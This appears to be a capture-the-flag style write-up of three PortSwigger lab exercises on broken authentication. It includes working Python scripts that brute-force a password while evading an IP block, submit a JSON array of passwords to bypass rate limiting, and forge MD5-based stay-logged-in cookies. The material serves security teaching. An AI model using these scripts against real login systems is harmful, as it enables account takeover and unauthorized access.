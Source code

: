 # Authentication Vulnerabilities

<h3> Broken brute-force protection, IP block</h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/503c5d03-8fab-4ecd-93be-77c2e1a16e64)

Going over to the web app shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/db03e8c5-4227-485b-9051-4a96584bede6)

But since we're interested in the login page I went there
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/411fdbb1-67db-49d8-8beb-a640a8884278)

First thing we should note is that we're already given a cred to login as `wiener:peter` but the goal is to brute force the user `carlos` password with the password wordlist given

Let us login as the user *wiener* first
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8d66fd76-235f-4da4-9395-6001a09673e3)

It works cool. When we try loggin in as user carlos with a random cred it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e6ee17ee-7936-41e2-94bb-f198501862c9)

And after the third attempt of trying random password it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d5dbd879-c1aa-4d34-80db-1390c6e3ab69)

Hmmmm we've been blocked for one minute

After waiting for a minute and then trying to login as user *wiener* works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e6238793-bfe4-437a-8f87-e597bc785b2f)

I logged out then tried loggin in as user carlos with random password but for just two request
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a0b860a9-8975-4a48-8c79-807a8a91642c)

Then the third request I logged in as user wiener and it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/249e4a48-e522-4124-803f-852803064425)

So now the logic behind this login function is that:
- After two failed login we get incorrect password as expected
- Then the third login when tried with a valid cred works which prevents the the web app from blocking our IP

Cool with this we know that we can brute force the user's password for every two requests made and the third request we will login as weiner

I made a script for that though *Portswigger* recommended a burp extension
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2392dd57-3372-4b21-8781-612ee1ef8f79)

Here's my script 

```python
#!/usr/bin/python3
import requests
import time
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

with open('passwords.txt', 'r') as f:
    passwords = [passwd.strip() for passwd in f.readlines()]

url = 'https://0a42008903a8b19183b582120062005e.web-security-academy.net/login'

data = {
    'username': 'carlos',
    'password': ''
}

valid_cred = {
    'username': 'wiener',
    'password': 'peter'
}

# Make a valid request to prevent IP Block
req = requests.post(url, data=valid_cred, verify=False, allow_redirects=True)

count = 0

for password in passwords:
    data['password'] = password
    req = requests.post(url, data=data, verify=False)

    if 'Incorrect password' not in req.text:
        print(f'Password found: {password}')
        break

    count += 1

    # On every 3rd request bypass IP blocker by logging in with valid cred
    if count == 2:
        print(f'Trying: {password}')
        req = requests.post(url, data=valid_cred, verify=False)

        count = 0
```

Running it gives the password
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a37c4341-dd38-491a-a0a1-bf0c83de5afd)

And automatically it shows solved
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/38123a6b-bac9-492a-b674-a3f050160a32)


<h3> Broken brute-force protection, multiple credentials per request </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/df0abf24-e21d-4afa-a935-9786792d7b51)

Moving over to the web app shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4a5577ac-d4aa-481e-a721-b9c9fb61163e)

Since the task is to login as user carlos let us go to the login page
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/66e9bcee-fae7-4bb5-8460-16481de430c1)

After trying the username *carlos* with a random password and intercepting it in burp suite I get this request
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/deebfa7f-f55d-4dd3-a7bd-46a16ccb6356)

Notice the way the data is passed to the web server in form of json

```
{"username":"carlos","password":"deyplay"}
```

If we try to brute force the password we get rate limited but here's something way more cooler

We know that this is json right?

Therefore we can pass the password values as an array 

So basically the web server will loop through the password variable till it gets the right password

I used python to make it a better json format

Here's my script 

```python
import json

password_list = [
    "123456", "password", "12345678", "qwerty", "123456789", "12345", "1234", "111111",
    "1234567", "dragon", "123123", "baseball", "abc123", "football", "monkey", "letmein",
    "shadow", "master", "666666", "qwertyuiop", "123321", "mustang", "1234567890", "michael",
    "654321", "superman", "1qaz2wsx", "7777777", "121212", "000000", "qazwsx", "123qwe",
    "killer", "trustno1", "jordan", "jennifer", "zxcvbnm", "asdfgh", "hunter", "buster",
    "soccer", "harley", "batman", "andrew", "tigger", "sunshine", "iloveyou", "2000",
    "charlie", "robert", "thomas", "hockey", "ranger", "daniel", "starwars", "klaster",
    "112233", "george", "computer", "michelle", "jessica", "pepper", "1111", "zxcvbn",
    "555555", "11111111", "131313", "freedom", "777777", "pass", "maggie", "159753",
    "aaaaaa", "ginger", "princess", "joshua", "cheese", "amanda", "summer", "love",
    "ashley", "nicole", "chelsea", "biteme", "matthew", "access", "yankees", "987654321",
    "dallas", "austin", "thunder", "taylor", "matrix", "mobilemail", "mom", "monitor",
    "monitoring", "montana", "moon", "moscow"
]

json_array = json.dumps(password_list)

print(json_array)
```

Running it gives us a better json format
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/63299bd1-61aa-486a-b3c2-2ae3c45ada99)

Now I replaced it as the password value in the request 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3443cc8f-3ab2-47db-870c-7ad22f3c79a3)

After forwarding the request I got logged in
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2c1a25b8-2c6c-4624-8de5-2cc007bf63b9)


<h3> Brute-forcing a stay-logged-in cookie </h3>
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9e73798c-5592-4825-9877-9c310fb72049)

Going over to the web app login page shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/57ea7e14-ecf1-4395-81bb-ce6635679bc5)

When i tried login in as user wiener with the password as peter and i intercepted the request in burp suite i saw this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b1674a4c-8097-4239-a63e-9ea832d824fd)

Then I got logged in 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1eb89a5a-adfd-4aa6-a6ae-297185e258bd)

Nothing too interesting there

But now there's a remember me button on the login page 

So i went ahead to login again but this time around click the button
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/33cdb04d-1233-4c55-85a6-e5aef08e538f)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/39057f15-b8fb-477d-b945-326f2d228e9c)

It created a stay logged in cookie for us
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1ed563b4-599d-4760-94c1-68e3286c8a13)

Seems like it's encoded

Using cyberchef I decoded it and it turns out to be a base64 string
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/49ac80ca-78c3-4a30-8a48-8084848b1499)

```
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

Hmmmm 🤔

This looks like a hash

Using crackstation to decode it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7993e2e3-a9da-42d8-8c34-45de0f758b95)

Now we know the way the web server creates the stay logged in cookie

By taking the base64 encoded form of the hash of a password along side with the username:

```
base64(username:md5hash(password))
```

Since the aim is to get logged in as user carlos and we are already given a password list

I wrote a script to automate that for me

```python
import requests
from base64 import b64encode, b64decode
from hashlib import md5
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

with open('passwords.txt', 'r') as f:
    passwords = [i.strip() for i in f.readlines()]

url = 'https://0aa9007b04ad189280c7801c00ea00ed.web-security-academy.net/my-account'
proxy = {'https': 'http://127.0.0.1:8080'}

for password in passwords:
    bytes_ = password.encode()
    hash_ = md5(bytes_).hexdigest()
    signed_in = 'carlos:' + hash_
    encoded = b64encode(signed_in.encode()).decode()
    cookies = {
        'stay-logged-in': encoded
    }

    req = requests.get(url, cookies=cookies, proxies=proxy, verify=False)
    if len(req.text) != 4884:
        print('Password found: ' + password)
        break
```

Running it gives us the password
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8092d91e-309f-49df-b33a-ce2a38bfab8e)

We can then use that to login
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8fdcddfc-68cb-4bfb-ab23-99fe504f87a2)

